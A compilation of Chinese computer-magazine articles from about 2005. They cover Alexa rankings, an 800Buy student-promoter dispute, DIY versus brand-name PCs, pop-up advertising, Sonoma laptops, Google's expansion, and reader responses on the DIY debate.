提高排名，可不像在QQ中自己号码前多加几个空格那样就能办到。让网站内容更新颖、更快速、更翔实、更具有吸引力，这些是正道，也可以称之为“白道”。当然这其中也少不了炒作行为，例如搞些什么网络选美、XX秀之类的，仿佛如果不隔三差五弄出点儿动静来，就像中国人做菜不放味精那样，让人不适应。另外就是狂打广告，什么电视上、报纸上、杂志上、汽车上，总之只要是人们眼睛能看到的地方都成了广告发布栏。大千世界无奇不有，昨天甚至听说出现了脑门广告，据国际广播电台报道“美国一名从事网页设计工作、叫安德鲁·菲舍的男子，在e-Bay网上拍卖了自己的脑门儿，称可以在上面贴广告。”并且商家响应踊跃，最终菲舍的这块巴掌大的脑门儿竟被某公司用37375美元买下。所以以后大家在街上碰到脑门上写着“www.xxx.com”的人，千万别以为人家是从精神病院跑出来的，人家可是具有商业头脑的超前人士。真不知道以后会不会有人出来拍卖屁股，或者其他什么广告部位？不过在这里笔者想提醒一句，味精放多了也会产生后遗症，头痛是最主要的表现，毕竟网民上你的网站是为了获取内容，而不是冲着你那些花里胡哨的广告来的。

虽然Alexa排名还存在许多争议，但是在国际上访问量越大，排名越靠前，这个数据也就越准确。Alexa这次事件已经为所有网站们敲响了一次警钟。最后，我们想用这样两句话结束本文：消费者只会为内容买单；投资者看中的是真正的价值！

（吉林 海浪轻风）

动动嘴就能拿到千元月薪和每月30元的上网补助，对于那些想利用假期时间打工挣学费的在校生确实是个不小的诱惑。很多网站在假期里也策划了一些项目专门吸引这部分学生的眼球。不过，近来一些怪现象也必须要摆在桌面上说一说，否则某些别有用心的人会把网站的善举当作寻找廉价劳动力的工具。

## 从800Buy的招聘启示说起

800Buy是知名的零售品牌，在国内也有很好的销售业绩，800Buy网站因此也具有很好的人缘。早在2004年11月份，该网站开始策划一个招聘“网站宣传员”的活动。活动形式是在学生中招聘一些网站宣传员，他们的工作也只是在学校中发放宣传材料，让同学们订购商品。活动亮点之一就是让在校生有机会接触一些正当商业活动。客观地讲，这样的活动确实有助于培养学生的交往能力，也拉近了800Buy与学生之间的距离。作为回报，800Buy承诺将给予“每人每月30元现金上网补助以及最高达5％的销售提成”。

## 800Buy善举为何也遭质疑？

应该说800Buy的初衷是好的，而且到记者截稿时止，也有不少在校生成为了注册用户，开始了他们的推广活动，但为什么还会有人质疑800Buy的行为有问题呢？这就要从一封读者来信说起。

小刘(化名)按照网站http://school.800buy.com.cn/publicize.htm提示提交了申请，而且得到了800Buy网站的认证，成为了一名名副其实的网站宣传员。欣喜若狂的他以为这样就能享受“每人每月30元现金上网补助以及最高达5％的销售提成”了，可800Buy的一封回信让他完全失去了信心，最让他受不了的是这样一段敏感的文字：

> “小刘特意注明‘注册时网站没说必须完成任务才给30元！后来才发来的信！’这样做是否误导用户呢？而且解释权为什么在800Buy？请您帮帮我！”

## 关于销售提成如何实施？

招聘人员只要在当月完成100元以上(含100元)销售额，均享有30元上网补助。第2个月业绩如果达到500元销售额，照常有30元上网补助和提成；如果达不到500元销售额，不发30元上网补助，只发销售提成……

来信中，小刘特意注明“注册时网站没说必须完成任务才给30元！后来才发来的信！”这样做是否误导用户呢？而且解释权为什么在800Buy？请您帮帮我！”

## 律师:800Buy 没错

看到这儿，记者相信很多读者也会有同样疑虑：800Buy“先斩后奏”的行为真的一点儿问题都没有吗？记者特意咨询了本刊律师周涛先生。周律师首先仔细查看了网站的宣传材料和注册程序，并且在阅读了小刘的来信后说：“800Buy的行为是正常的商业推广行为，不存在误导用户的成分。”律师给出了下面的一些解释。

第一，注册说明在法律上构成“要约邀请”，即说明对象不是特定的某个人，而是全部用户都可以看到的。这就象楼盘的宣传广告，可以使用特定词汇吸引消费者。

第二，800Buy的确认信才是双方订立格式合同的开始，但用户可以不履行合同内容，这不构成合同欺诈。

假期中，大家也许会注意到，网络上各种招聘信息琳琅满目，作为判断能力稍弱的群体，普通人如何能一眼看到哪些信息有问题，哪些信息是正常的招聘行为呢？律师给出了一个参考建议：

如果用户在注册参加某一个网站的商业行为时，网站提出了特定的确认方式，比如注册用户必须经过手机认证或者扣除一部分手机话费，那双方立即形成了合同关系，对方必须履行注册说明上的格式条款。如不履行就构成违约，用户有权追究法律责任。做个不太恰当的比喻，假如某网站的招聘信息和800Buy的一样，只不过是要通过手机认证或者需要交纳一部分注册费用，那么这个“解释权”就不再属于网站了。

## DIY时代要叫停止符？

编者按：DIY电脑与品牌机到底孰优孰劣，很难用一两句话说清楚。值此“消费者权益保护日”来临之际，我们提供了这样一篇文章，旨在引起消费者和商家的注意。本文作者以一名普通消费者的视角，提出了自己对该问题的思考。

据最近的一项调查显示，DIY电脑占家用电脑市场的比例由几年前的70%下跌到现在的不足20%。对此，攒机商们都无奈地抱怨着：“品牌机降价了，市场也饱和了，DIY电脑越来越难做了。”然而，笔者在中关村几家电脑城里发现，仍有不少消费者对DIY乐此不疲。低价成为DIYer们惟一聊以自慰的理由。经过近半月的市场调查，笔者认为，DIY并不像部分消费者想像中的那么“完美无瑕”。DIY暴露出的问题足以让消费者难以招架。

### DIY不兼容 费事！

如果说电脑外观不重要，兼容性算是比较重要了吧。然而，DIY电脑配件往往不兼容。在配件的选择上DIYer可以很自由地选用功能更强大、质量更优异的产品，但这样攒出的电脑就是没有经过测试的配件的拼凑，出现产品不兼容在所难免！



华硕主板包装盒上的各种检验合格标志是消费者选择优质配件的保障

DIY电脑兼容性把关者往往都是攒机商本人。市场上配件虽然种类繁多，但是叫得响的、质量好的、出货量大的厂家并不多，如主板有华硕、技嘉、微星、硕泰克等等。它们的产品都是比较可靠的，通过的认证、检验也很严格，兼容性问题很少。而利益驱使着攒机商多选择小品牌或无品牌的配件，这些偷工减料、粗制滥造的配件带来了很多兼容性问题。采访中，笔者了解到，很多攒机商表面上对DIY电脑兼容性打包票，其实判断配件兼容性的依据早已被别的东西所取代。他们每家都有不同的进货渠道，赶上什么用什么，赶上什么就说什么兼容性好的大有人在。当你决定在某一家DIY以后，你会发现攒机商往往会派人东奔西走凑配件，拿到什么产品立即开包装上。而消费者往往没有检验兼容性的经验，操作系统安装完毕立即带走，等到使用中再遇到问题时，才不得不拿回来重新逐个排除兼容性故障。

笔者从联想公司了解到，在硬件兼容性方面，联想电脑要做至少12个品牌、90多种硬件、30多种软件的兼容性测试，针对全面覆盖电脑的十余类、300多种硬件信号进行盘测，以获得足够的设计余量。联想人说，消费者在中关村任何一家电子市场买的任何一种合格设备，与联想电脑都不会出现不兼容的问题。

### DIY无个性 该弃！

DIY无非让消费者体验个性组装的快乐。然而，当你真正置身于配件市场，你会惊奇地发现：个性组装的电脑并无个性可言，整体效果上更谈不上完美。

正在装机的小刘把全部希望寄托在能够配置一台性能卓越、个性十足的个人电脑。但是在柜台前小刘却怎么也找不到当年DIY的感觉，他对笔者说：“现在的配件真的很丰富，但看上去更像是给专门买配件的人用的，而不是用来装电脑的。”为了找到一款适合机箱风格和颜色的显示器，他走遍了电脑城各个商家，却在一个不知名的二线厂商的柜台前停住了。“这台黑色液晶显示器看样子不错”小刘脸上露出了一丝满意的微笑。点亮一看，有坏点，换一台，还有坏点，他最终还是选择了一台看不到坏点的显示器，回到装机柜台却怎么也笑不出来了。“都是黑色，怎么放在一起就不是一种颜色了呢？你们再帮我找找，我的要求很简单，就想要一款颜色和机箱一样的”他不太高兴地对攒机商说。结果得到的答复让他彻底绝望了，“装电脑差不多就行了，你用电脑又不是光看外观！”就这样，小刘乘兴而来，却败兴而归，边走边嘟囔：“都是黑色，怎么相差那么大呢？”

配件颜色、风格不同实属正常，因为不同的厂商工业设计思路差异很大。不同颜色的产品都虽按照统一工业标准喷涂，却因产品线不够丰富而供货不够充足，这是追求个性而去DIY的消费者心中永远的痛。

### DIY不安全 小心！

DIY电脑安全性、可靠性没保证。安全性是用户很容易忽略的一个因素，因为它不像稳定性和兼容性，能够很容易表现出来。用户能够感知到安全性存在问题，一般都是在出现大的问题和故障之后，而这个时候用户要解决问题往往已经来不及了。

在惠普电脑专卖店里，笔者遇到了前来购机的王先生。对于品牌机的安全性，他感触颇深：“我的第一台486是康柏电脑（现在是惠普）。大概是在1999年的夏天吧，一个雷雨交加的夜晚，一道闪电透过半掩的窗户‘空袭’了我心爱的486。当时家里人都吓坏了，我们住的平房根本没有避雷措施，更没想到这种小概率事件会发生在我身边。电脑立即就冒起了清烟，我们立即就断了电，谁也没敢动。直到第二天，拿到康柏电脑维修部，才得知是主板的一个芯片烧毁了，但很快就被修好了。现在那台电脑成了我儿子的打字机。”起初笔者半信半疑，后经工程师解释，笔者才知道当时的康柏电脑用料就已经很讲究了，采用了不少抗高压的保护措施，否则击毁的就不是一块芯片了。

在中关村某二手电脑卖场，笔者了解到，二手显示器的主要来源就是品牌机。也许这从一个侧面也反映出品牌机的安全性好，故障率低。

### DIY价不低 麻烦！

DIY电脑性能、价格优势不再。随着PC市场的不断发展，DIY电脑价格优势已经不复存在。从目前市场上产品价格比较来看，同等配置的机型，DIY电脑与品牌机的价格已经不相上下。而且，这个价格中还包括了正版软件、售后服务等费用。

DIY电脑的最大竞争力就是与品牌机几千元的差价，当初它之所以能够占有个人电脑的半壁江山，主要原因还是两者之间数千元的价格鸿沟。现在这个“鸿沟”正在逐步被填平，品牌机与相同配置的DIY电脑价格差已缩小到了千元左右，甚至于更低只有几百元，为什么会这样？其主要原因当然是品牌机让出了原有的高额利润，其次，品牌机生产厂商由于直接对配件厂商订货或OEM，规模稀释了成本，其基本成本要比相同配置的DIY电脑低出很多，所以在理论上品牌机可以与DIY电脑达到相同价位，甚至比DIY电脑价格更低。但根据成本规律，品牌机厂商要负担一个良好的售后服务成本，大约要占到10%左右，也正是严重削弱了品牌机价格竞争力的差额成本，但现在攒机商按规定同样也要执行为期不等的售后服务，包括维修、甚至更换不合格产品等，同样也要负担这一成本，大约要占到5%。品牌机的前一块规模优势与较大的售后服务成本相抵，所以品牌机在理论上只与DIY电脑有5%的价格差，这5%就足以让品牌机与DIY电脑的价格差缩小到三百元以内。

### DIY不稳定 费时！

DIY电脑在组装过程中基本没有专门测试，只要能运行就算装完，使用中频繁出错在所难免，电脑稳定性可见一斑。

国家电子电脑质量监督检验中心主任罗洪元介绍说，电脑稳定不稳定，一个重要的衡量指标是可靠性，它是指一批产品在规定条件下和规定的时间内，完成规定功能的能力，其常用的数学特征量就是平均故障间隔时间（也称平均无故障工作时间）MTBF。按照国家有关标准，微型电脑的MTBF不得低于4000小时。联想在一次配置最完整的试验中，得到了MTBF 45000小时的最长时间记录。通俗地讲，这意味着如果1台机器24小时开机连续正常运行，大约平均可以运行5年多的时间不发生硬件故障。

相比品牌机厂商，攒机商要么根本没有测试，要么就进行简单的程序开启和关闭的试机操作。试问，这样的毫无稳定性可言的DIY电脑，你敢用它来撰写上百页的论文吗？你敢用它来保存家中极具纪念意义的老照片吗？

### DIY有软肋 版权！

攒机商“免费安装软件”成为DIY电脑又一软肋。不少用户在购买DIY电脑的时候，装机厂商都会免费安装应用软件。殊不知这些基本上都是盗版软件，用户很难得到软件应有的技术支持。

以操作系统为例，微软自2004年执行正版增值计划以来，因使用盗版软件而被锁机的用户不胜枚举。目前，微软再次刮起“低价正版软件风暴”，其中，希望购买近50%折扣的正版Windows XP的用户必须填写“获得未经授权Windows软件情况说明”。有业内人士暗示，微软此举是要彻底摸清盗版的来源，以便“秋后算账”。那些无辜被牵连其中的DIY电脑用户无疑将成为被封杀的对象。

比起DIY，品牌机多采用OEM的方式随机安装正版操作系统和常用软件。“避免异常死机，提防不能升级”是其次，顺应使用正版软件的潮流才是后PC时代理性消费的标志。备受关注的“三包”中“使用盗版软件造成损坏的不再享受三包”一款在事实上直接“扼杀”了DIY用户享受三包的可能。

### DIY真难保 费钱！

假如你觉得上面说的都是看不见摸不着的实惠，那么购机总要讲究货真价实吧。然而，DIY电脑的零配件虽摸得着、看得见，但由于进货渠道不够规范，电脑配件又复杂多样，普通消费者很难鉴别真伪。

从北京中关村、武汉三好街、南京珠江路、西安雁塔路一直到重庆磨子桥等都是DIY电脑撑起的产业群，在这里电脑城林立，装机商们像小贩卖白菜一样当街叫卖、拉生意。电脑城生意的背后是鱼龙混杂，奸商、水货横行，其实水货也还罢了，怕的就是奸商用假货李代桃僵。消费者装机不得不拉着“电脑高手”，带着《电脑爱好者》杂志，转遍电脑城的上上下下。

配件市场信用度低、服务质量差，是DIY电脑与品牌机对阵的软肋。打个不恰当的比喻，所谓“船小好掉头”，正因为品牌机船大，不好掉头，跑得了和尚跑不了庙，它才值得相信啊。

### DIY“零服务” 维权！

常年跟电脑质量打交道的国家电子电脑质量监督检验中心罗洪元主任表示，“DIY电脑”这个概念本身在套用电脑三包条款的时候就存在问题。从严格意义上讲，DIY电脑根本无法享受三包服务，因为三包是针对整机的，而DIY电脑是各个配件的组合，各个配件有各个配件的厂商，整机没有统一的厂商，无法统一执行三包。所以，DIY电脑无法向品牌机那样享受三包服务。

## 弹出广告 想说再见不容易

说到什么东西一旦“弹出”就让人厌烦，那必定是网页上的弹出窗口了。对于网民，特别是电脑水平不太高的网民，乱七八糟的弹出窗口与洪水猛兽无异。这里特别要指出的是，本文的重点放在网页上以弹出窗口为载体的网络广告，请广大网民切勿谈虎色变。网民反感的是形式，又不是内容，互联网服务提供商（ISP）为什么就那么认死理？记者调查中发现了更多鲜为人知的网络广告的问题。

## 弹出广告仍在

早在2004年8月，两家门户网站新浪和搜狐相继对弹出式广告给网民带来了不良的上网体验给予了说明。新浪CEO汪延郑重承诺，新浪一年后消灭弹出式广告。搜狐更是放言，从2004年8月起封杀弹出式广告。当时，京城某家大众媒体连续报道了两家公司的惊人之举，舆论一片哗然，用户更是拍手称快。一时间，网民声讨以弹出式广告为代表的网络广告，就像人人喊打过街鼠。就在网络巨人“断臂”之举为网民津津乐道的时候，先是新浪把转载那家大众媒体报道的网页撤掉了，“封杀”之举原来只是两大门户竞争的一个砝码。

2005年1月19日，距离两大门户网站相继宣布“封杀”弹出式广告的近半年以后，读者Yours报料，在搜狐提供给广告客户的“网络广告报价单”上，赫然将弹出式广告以2万到15万不等的价格出售。记者先后打开搜狐首页的50个频道时发现，弹出式广告数量竟然达到了19个之多！新浪的现状如何呢？也许是新浪CEO汪延承诺的“一年”适应期还没过的缘故吧，2月27日，新浪网首页的弹出式广告数量就已达到两个之多。

## 另类广告又起

为了衡量网络广告给网民带来的利与弊，记者用QQ和MSN Messenger随机采访了部分网民。谈到弹出式广告，大多数网民觉得内容有时是可以接受的，但形式不太好，毕竟影响了阅读。谈到哪些网络广告最影响阅读，多数网民提到了弹出式广告，另一些网民也提到了一种“对联广告”，反映有些“对联广告”影响阅读的程度比弹出式广告更严重。

弹出式广告可以关闭，某些网站对联广告竟不能关。记者先后打开了IT168、新浪、搜狐、PCPOP等网站，发现基本上都存在有对联广告，其细微差别之处在于PCPOP首页的对联广告与其他网站相比，简化了关闭按钮。网络广告特点之一就是针对性强，即广告受众可以从被动接受变为主动选择。“对联”形式的出现从某种程度上说确实解决了商家推广品牌和网民有选择地浏览广告的矛盾。但如此悬浮在网页上而不能及时关闭，就有悖ISP提供此广告形式的初衷了。

## 网络广告商机大 关掉不容易

弹出式广告已成为互联网上的一大公害，国际上大的互联网公司早就开始联合抵制这种广告形式。Google率先推出具有阻止弹出窗口功能的工具栏Google Toolbar，此后微软Windows XP的SP2也基本解决了弹出窗口的问题。微软还没来得及做的工作，一些采用IE核心第三方浏览器已经帮它做了，如Maxthon等。尽管如此，网络广告商们仍旧不遗余力地推陈出新，甚至不惜再次侵害网民的上网体验。这里面的问题正如新浪CEO汪延所说，“这不是技术问题，而是钱的问题。只要新浪能继续目前良好的增长势头，用一年时间，新浪愿意拒绝弹出式网络广告给网站带来的巨大金钱诱惑。”

面对上亿元规模的网络广告市场，面对内有Baidu，外有Google、Yahoo主导的搜索广告分去了近乎30%市场份额的网络广告市场现状，互联网企业还会放弃利润巨大的弹出式广告为代表的“问题广告”吗？如果不能，网民的利益谁来保护？弹出广告，想说再见确实不易。

(本刊实习记者 张健)



## Sonoma引发笔记本之争

Sonoma架构包括低功耗90纳米制造工艺的Dothan处理器、915M系列芯片组、Calexico 2高速无线网络。它作为2005年主流笔记本的基础架构，目标是要代替现有的迅驰一代架构和更早的P4-M架构。Sonoma的出现，与其说让众厂家重新站到了同一起跑线上，不如说是提供了今年笔记本市场的一个重新洗牌的机会。2005年笔记本大战在即，谁会主导市场，赢得消费者的欢心呢？且听我们聊聊争端背后的故事。

## 华硕“薄·乐”悦人心

作为全球首屈一指的OEM厂商，华硕的自有品牌和OEM品牌的协调发展，使得他既可以在产品层成为一流的制造厂商，也可以成为概念层的领导者。

事实上，在Intel发布Sonoma平台的第一时间，华硕已经准备了多款新品。和老牌的IBM、惠普、东芝和戴尔相比，华硕笔记本短暂的发展道路上布满了华硕人寻找差异化产品生存空间的坎坷。

针对目前笔记本电脑市场上存在的轻薄与娱乐性能无法兼顾的现象，华硕提出了“轻薄娱乐”的理念，所谓“薄·乐”之道正是如此。在新的Sonoma移动平台的基础上融入“更高的品质、更新的技术、更精湛的工艺、更周到的服务”，看得出，华硕仍坚持在增加产品的附加值上大做文章的策略。华硕电脑中国业务事业群总经理许佑嘉针对华硕笔记本电脑的发展策略及未来方向表示，对新平台笔记本轻薄娱乐的发展充满信心。“薄·乐”之道让消费者真正体会到了“鱼与熊掌兼得”的好处。



## 明基“宽屏”一统江湖

明基笔记本入市时间不长，却取得了国内销量前十的骄人战绩。和华硕有相似之处，明基力求自己的产品在某一个方面得到消费者的认可，并以此为突破口，占据更多的市场份额。不可否认，明基悠久的LCD制造史和优势的LCD面板资源，为他们自有品牌笔记本电脑独树一帜的特色推广之路做好了从技术到市场开拓等方面的准备。

自2002年率先推出全球第一台15.4英寸宽屏笔记本电脑以来，明基可以说是笔记本宽屏大潮始作俑者。凭借用心的投入与一再的坚持，不仅让“宽屏”成为近年来笔记本市场最热门的话题之一，更让Joybook一举成为国内笔记本行业宽屏超亮、品质超卓的代名词。2005年，Sonoma的出现，明基也亦步亦趋，但同时仍紧抓宽屏的产品特质，更是以“镜面靓机”等时髦概念独步江湖。

通过记者的随机采访，我们可以看得出明基的市场培育工作没有白做。消费者逐步认同并且接受着宽屏带来的好处，比如有的消费者说：“使用14英寸宽屏笔记本时，可以享受15英寸屏幕的可视面积，更可感受到敲击全尺寸键盘的快感”。

在宽屏日益成为笔记本市场主流，并得到广大消费者认可的时候，采用4:3显示比例的传统笔记本有朝一日或许会被宽屏所取代。2005年，明基将继续领衔主演这场引人入胜的宽屏大戏！

## NEC倡导时尚商务

## 业界

而日系厂商，却在小而精上做足了文章。在个人计算机处理能力逐渐超出普遍需求的时候，如何恰当地均衡过剩的计算能力与其他特性便成了摆在新硬件推广者面前的首要难题。Sonoma 时代，若没有几招杀手锏，更会在同化现象越来越严重的笔记本世界里失去了个性空间。NEC 代表机型 S1100 的诞生注定了它布满荆棘的道路和担当挑战者的命运。

NEC S1100采用的完整 Sonoma 平台。值得一提的是 NEC S1100 配备了 NEC独有的 Shock Absorb 硬盘防震技术。目前，越来越多的非商务用户开始注意到笔记本的安全性能。

NEC 产品中国总代神州数码的苏毅接受记者采访时介绍说，2005 年的笔记本产品主流价位将会接近 9000 元大关。在利润空间再次降低的时候，NEC 力求在笔记本的质量上迈上新高，同时，在产品细节上做到极致。为了使产品线更加丰富，神州数码有可能引进更多 NEC 的基于 AMD Turion 64 架构的笔记本，以此冲击笔记本价格低端，同时给消费者更多实惠。

我们注意到，稳重商务的概念越来越受到倡导时尚概念的厂商的冲击。为此，NEC 将更多时尚元素加入到移动商务之中，从显示卡配置方面就可看出一斑。比如，国外主流机型还都在使用独立显示芯片+共享显存的模式，降低整机采购成本的同时，满足了时尚消费人群娱乐为辅的需要。

## TCL 做游戏王者

天价房子有人买，天价手机也有人买，中国的富人多，连老外都预测中国将成为下一个奢侈品消费大国。虽然我们不相信这个世界上全是这样花钱如流水的疯子，但是我们又不得不承认这种人大有人在的事实。记得有新闻说 17 万的天价手机在大连居然卖到脱销，不得不让人联想到电影《大腕》里的一句话——“不求最好，但求最贵”。



TCL 海盗 S800 采用的17.1 英寸 WSXGA 的宽屏、强悍的 3.6GHz Intel P4 560 处理器、高性能 SATA 接口 120GB 硬盘 RAID 0 阵列、移动版 nVIDIA 6800 Go 显示卡，无疑提供了一流的游戏体验。

前不久，TCL 推出的海盗 S800 笔记本以 48888 元的天价，一反常态地逆市而上。独特的高性能游戏玩家笔记本的市场定位，让更多的消费者一时摸不到头脑，在厂商纷纷低价入市地推出 Sonoma 架构笔记本的时候，TCL 此举是否显得有些怪异？的确，也许是因为 Sonoma 的诱惑还没有那么大，不过，业内人士纷纷猜测 TCL 在“冷”推 Sonoma 的同时，“热”捧天价游戏笔记本，很可能是想在产品线的差异化方面做出自己的尝试。无论如何，消费者的眼球总会跟着焦点乱转，一个天价“海盗”的出现会引来消费者更多的关注，Sonoma 跟着热卖也说不准。

## 新蓝、神舟上演“杀价战”

利剑出鞘，谁与争锋？对消费者来说，Sonoma 的诱惑也许没有低价来得实惠。毕竟很多人还是考虑够用就行，新蓝、神舟一向以低价冲击市场价格底线的做法，让消费者看到了笔记本更多的降价空间。

Sonoma 的确引爆了 2005 年的笔记本战事，不过撬动市场杠杆的利器莫过于价格本身。记得 2004 年神舟老总吴海军预测今年会有 2999 元的笔记本问世，2005 年，新蓝电脑捷足先登了，成为了第一个将笔记本价位拉到 3999 元的价格标兵。新蓝相关负责人介绍说，2005 年底，新蓝的 2999 元笔记本将会研发完成，预计在来年的春节前后发布，但具体发布时间得视市场情况及竞争对手的状况而定，业内纷纷猜测这个“对手”就是神舟。

新蓝的低价和 TCL 的高价形成了鲜明的对比，但两者的市场策略有异曲同工之效。事实上，我们看到新蓝、神舟也好，TCL 也罢，无论天价“海盗”，还是“地价” 3999 元的DFREE2000，价格都只是竞争手段，覆盖各个价位的产品线才是真正能在市场上取得份额的制胜法宝。

## 消费者仍在追求性价比

在中关村鼎好电脑城，记者遇到了正在选笔记本的小刘。据了解，作为普通的消费者，小刘购买笔记本时并没有考虑太多的“概念”成分，选择多大的显示器，多大的内存和硬盘仍是他选购笔记本的标准。一直是多个国际品牌代理商的神州数码公司的陈良火先生道出了消费者的心声：“目前，主流消费者消费能力仍停留在 8000 元的价位，这个价位的机型无论什么品牌，都能满足消费者的日常用途。稍微追求品质的消费者，才会考虑诸如轻薄、宽屏、安全性等其他附加特点。说白了，消费者仍在沿用购买台式机时的老思想—追求性价比。”

得用户者得天下！商家定位消费者的同时，消费者也在寻找适合自己的商家。看来，只有那些懂得消费者心声的聪明人才能赢得今年的笔记本战事。究竟谁会最后胜出，让我们静观其变吧。 （本刊实习记者 张健）

## 2005, Google意欲何为

标准普尔的一项调查显示，Google是用户心目中最知名的搜索引擎，Google不仅是一个搜索品牌，更成为了搜索的代名词。最新一期全球最具影响力品牌的调查中，Google仅次于苹果位列次席。近期，Google要开发浏览器的传言一时之间又成为了网友关注的焦点，更有甚者说Google要垄断电信行业。天啊，Google，你到底要干什么？

### 上网用 Google

微软在未来的 Windows 操作系统中嵌入搜索功能的着实让 Google 一惊。假如微软的文档文件都可以执行网页和硬盘信息的搜索，那么根本没有必要去访问 Google。微软凭借 Windows 的平台优势挤垮网景是Google 的前车之鉴。Google介入浏览器研发，抵消用户对Windows的需求，又有什么不可理解的呢？

目前，Firefox 浏览器的两名主要开发者相继宣布为 Google 效力。除此之外，Google 还聘请了一批Javascript专家(包括IE合作开发者)。Google 扩充的不仅是人手，还有gbrowser.com。当初人们根据Google 注册Gmail.com成功地预测了 Gmail 的诞生，那么，gbrowser.com的诞生，从某种角度上说明了我们用上Google浏览器指日可待了。

### 发邮件也 Google

Google 在网民心中几乎已经成为了“搜索引擎”的代名词。不过，你知道吗，Google 的“野心”早已不局限于搜索引擎，它的触角开始迅速伸向互联网的各个角落。Gmail或许并非是最好的免费邮箱，不过它注定是IT史上受关注度最高的邮箱。无论是推出前的种种传闻和猜测，推出时恰逢“愚人节”的噱头，推出后异常稀缺的账号，Gmail 的一举一动都吊足了网民的胃口。

Gmail调动的又何止是网民的胃口呢？Gmail一出，免费邮箱多年的冰封似乎一夜之间被融化。一时间，杂志上连篇累牍的是介绍免费邮箱重要性的文章，门户网站接连不断地升级免费邮箱。无论是国际巨头微软、雅虎，还是国内知名门户新浪、TOM、网易都纷纷跟进。虽然，Gmail 至今还和普通网友之间隔着一层“薄纱”，不过它无疑已经开启了邮箱的“G时代”。回顾IT史时，Gmail注定是一个难以忘却的单词。

### 看新闻也 Google

习惯了在新浪看新闻吗？如果回答是肯定的话，那么建议您不妨登录 Google 的新闻页面，感受一下颠覆性的新闻阅读方式。 和传统门户网站的新闻页面不同，完成Google新闻编辑的，不是人而是机器—计算机逻辑运算。连结每日重要新闻的实际上是一个“在线新闻源集成”。依靠强大的品牌号召力和领先的技术，Google新闻可以改变用户网上阅读新闻的方式，即不再是传统地从一个固定的新闻网站或门户网站新闻频道进入，再逐层往下寻找。它让用户跳过新闻网站或门户网站新闻频道的首页而直接进入要去的网页。



Google 自定义新闻浏览方式

Google新闻的出现不可避免地对国内门户网站借以集聚人气的利器—互联网新闻带来冲击，甚至可能会进而威胁到门户网站的生存。

### 打电话也 Google

如果说提供Gmail和做新闻网站，Google 还是在吃“互联网”老底，那么传闻Google 的另一个举动绝对会掀起互联网上的又一股浪潮！还记得最近红极一时的Tom Skype吗？Google似乎也对在线电话产生了浓厚的兴趣。据英国《泰晤士报》报道，网络搜索巨鳄Google正准备进军电信业，通过宽带互联网，连接电脑和电话。

电信分析师朱利安·休伊特认为，从电信发展的长远角度来看，Google的搜索引擎功能与在线电话结合的前景非常好。设想这样一个场景：一客户需要寻找某个服装零售商，那么只要借助 Google 在网上找到相关电话信息后，方便地点击屏幕就可以和商店直接通话联系。

目前由于缺乏大型电信公司的专业运作，网络电话尚未成气候。不过，一旦Google出手，利用新技术和宽带互联网，向人们提供免费的电话服务，那很可能将呈现一个乐了消费者苦死电信商的局面。

尽管 Google 在搜索市场要领先于雅虎、AOL 和 MSN，但在搜索之外的其他非核心业务领域则明显落后于雅虎和 MSN。“多元化”之路才是一家在市场上“屹立不倒”的最终发展途径。Google 不断延伸触角的目的，或许也正在于此。不过，Google的高人气和频频的多元化举动，让人们对其未来的发展脉络产生了诸多猜测。一些大胆的网络评论家甚至预测Google还可能会开发媒体播放器，会开发网络游戏，甚至是操作系统。Google到底要干什么呢？或许除了上帝，只有Google自己知道。 （浙江 小捷）

## 我谈《DIY时代奏响休止符？》

本刊《DIY时代奏响休止符？》一文刊登后，读者反响强烈。在各方观点的碰撞中，两种观点逐渐显露出来：一种认为DIY时代并没有结束，仍有很大发展空间；另一种则觉得品牌机优势越来越明显，DIY时代正处在一个变革的边缘。通过收集读者的建议，整合部分配件厂商与品牌机厂商的观点，在这里，我们决定提供一个沟通的平台，展示各方观点的同时，希望借此机会让更多的读者朋友更深入地了解DIY的现状与未来。

### 品牌机是首选 DIY不再辉煌

首先，辉煌的DIY时代已经过去。我之所以这样说，因为随着家用电脑的普及化，电脑不再是发烧友的专利，电脑用户多数只为上网、娱乐和简单办公。对于不太了解电脑配件的人来说，买品牌电脑消除了售前和售后的风险，无疑是首选。

其次，DIY在一定时期内不会消亡。DIY的形式为很多电脑爱好者们所喜爱，自己选购配件，自己组装电脑，可以满足爱好者们个性化的需求，当然也可以培养他们的动手能力，同时DIY也是考验爱好者们电脑硬件应用水平的有效方式。享受成功的快乐，会让那些热衷电脑技术的爱好者们义无反顾地DIY下去。

个人电脑娱乐化的趋势，也使得DIY份额越来越少。享受影音娱乐的人们是不会把主要精力放在电脑的硬件知识上的，他们需要的是方便快捷的服务。实际上，品牌机厂商也正是看中了消费者的需求，全方位地提供服务。

我们既要看到DIY辉煌时代的结束，也要看到它在另一片天空闪闪发光。

> ——读者 axaxax7510

### DIY重在参与 品牌机重在服务

DIY，说白了就是爱好者自己动手，追求自己所要的性能和个性的装机方式。

现在的DIY市场鱼龙混杂，想DIY一台自己满意的电脑，不多学点东西，不擦亮眼睛，着实有些困难。但是你知道吗，去电子配件市场让攒机商装电脑本身就有悖DIY的初衷。自己花钱，别人动手，这还能叫DIY吗？况且，你还不得不面对攒电脑过程中的很多问题，比如《DIY时代奏响休止符？》一文中提到的几方面问题等等。

相比DIY市场，品牌机的优势逐渐显露出来。大多数品牌机的价格更具亲和力，甚至在某些方面更胜DIY一筹，加上品牌机所特有的各种促销行为和强大的售后服务网络，购买品牌电脑成了绝大多数消费者理性消费的标志。

但是，从我了解到的情况看，品牌机厂商如果不在服务上提高一个档次，那么也会面临一个问题——在消费层面出现信任危机。如果消费者一而再，再而三地不能享受到优质的服务，那么目前的品牌机优势还有多少呢？

此外，个人觉得在配置宣传方面，品牌机厂商应做到尽量透明，让消费者看到实惠。做到透明并不难，毕竟品牌机的竞争力不在于某一个配件的价格优势。

> ——读者雪茄烟

### 客观面对 DIY时代的结束

回想起20世纪60年代初，很多学生热衷于装“矿石收音机”，并由此步入“无线电爱好者”行列，开始DIY“电子管收音机”、“半导体收音机”。那时候，什么电阻、电容、电感，什么整流滤波、调频调幅、印刷电路、原理图，一连串专业名词一时间变得不再陌生。由此看出，DIY是新生事物成长过程中的重要元素，也是新生事物由幼稚到成熟的过渡过程中的助长剂和推动力。为什么现在没有人为了省钱而自己装收音机、电视机了？原因很简单：自己装省不了钱，厂家生产的收音机、电视机已经质优价廉了。

回过头来看，现在电脑制造业已经逐步走向成熟，工业化流水线生产出来的电脑在各个方面都比手工装的电脑强，小到每一颗固定螺丝钉的力道，大到防辐射、3C认证等硬指标，品牌机都具有太多的优势。

